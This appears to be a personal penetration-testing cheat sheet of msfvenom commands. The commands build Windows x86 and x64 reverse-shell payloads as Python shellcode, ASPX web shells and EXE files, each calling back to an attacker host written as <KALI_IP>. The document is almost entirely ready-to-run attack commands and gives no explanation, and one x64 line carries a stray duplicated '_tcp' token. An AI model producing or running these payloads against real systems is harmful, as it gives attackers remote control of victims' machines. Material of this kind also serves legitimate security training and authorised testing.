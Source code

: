 # Msfvenom

## Windows payloads

### x86

Reverse shell
```
# Python - variable $shell - bad chars
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=<KALI_IP> LPORT=<LOCAL_PORT> -b '\x00\x09\x0a' -f python -v shell

# Aspx
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=<KALI_IP> LPORT=<LOCAL_PORT> -f aspx -o aspxshell.aspx

# Exe
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=<KALI_IP> LPORT=<LOCAL_PORT> -f exe -o revshell.exe
```

Bind
```
TBD
```

### x64

Reverse shell
```
# Python - variable $shell - bad chars
msfvenom -a x64 -p windows/x64/shell_reverse_tcp  LHOST=<KALI_IP> LPORT=<LOCAL_PORT> -b '\x00\x09\x0a' -f python -v shell

# Aspx
msfvenom -a x64 -p windows/x64/shell_reverse_tcp  LHOST=<KALI_IP> LPORT=<LOCAL_PORT> -f aspx -o aspxshell.aspx

# Exe
msfvenom -a x64 -p windows/x64/shell_reverse_tcp _tcp LHOST=<KALI_IP> LPORT=<LOCAL_PORT> -f exe -o revshell.exe
```

Bind
```
TBD
```


## Links

[HackNotes - Msfvenom](https://nozerobit.gitbook.io/hacknotes/shells/msfvenom)
[MSFVenom](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)